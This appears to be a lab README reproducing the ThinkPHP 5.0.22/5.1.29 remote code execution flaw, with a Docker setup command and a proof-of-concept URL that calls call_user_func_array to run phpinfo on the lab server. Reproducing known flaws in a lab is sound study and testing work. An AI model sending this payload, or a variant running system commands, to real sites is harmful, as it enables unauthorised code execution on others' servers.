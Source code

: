 # Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5, as the framework processes controller name incorrectly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability.

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：

![](1.png)
